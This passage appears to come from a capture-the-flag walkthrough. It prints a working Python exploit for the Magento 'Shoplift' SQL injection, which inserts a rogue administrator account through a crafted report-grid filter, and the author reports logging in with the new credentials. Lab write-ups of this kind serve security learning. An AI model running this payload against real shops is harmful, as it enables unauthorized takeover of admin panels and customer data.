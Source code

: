 ```
q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="anymuz", password="shoplifter")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds anymuz:shoplifter".format(target)
else:
    print "DID NOT WORK"
```

I saved my version of the script as ‘shoplift.py’ and run it with ``python shoplift.py.`` since it was made to work with python 2.

![img](assets/shoplift.png)

The script shows success, if we navigate back to the admin panel at index.php/admin we can login with the credentials.

